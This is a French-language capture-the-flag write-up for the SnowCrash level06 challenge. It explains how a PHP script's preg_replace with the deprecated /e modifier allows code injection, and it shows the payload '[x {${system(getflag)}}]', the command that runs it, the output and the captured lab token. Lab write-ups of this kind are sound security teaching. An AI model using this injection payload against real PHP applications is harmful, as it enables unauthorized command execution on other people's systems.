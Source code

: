 # Level06 - PHP Regexp
Pour résoudre le level06, on a un fichier level06, qui exécute avec les droits de `flag06` le fichier level06.php. On regarde le code source et on remarque l'utilisation de nombreuses regexp. Le programme récupère le contenu du fichier qu'on lui passe en paramètres et lui applique une série de regexp. L'une d'entre elle est étrange, on utilise un modifier deprecated, le `/e`, qui va exécuter l'expression envoyée à la regexp. 

```
$a = preg_replace("/(\[x (.*)\])/e"
```

On peut ainsi injecter du code PHP à l'intérieur et il sera exécuté. Le code devra être formaté ainsi pour que la regexp puisse l'évaluer:

```
[x {${system(getflag)}}]
```
On met ce code dans un fichier dans `/tmp` et on lance `level06` dessus:

```
level06@SnowCrash:~$ ./level06 /tmp/toto
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

On a notre token: `wiok45aaoguiboiki2tuin6ub`

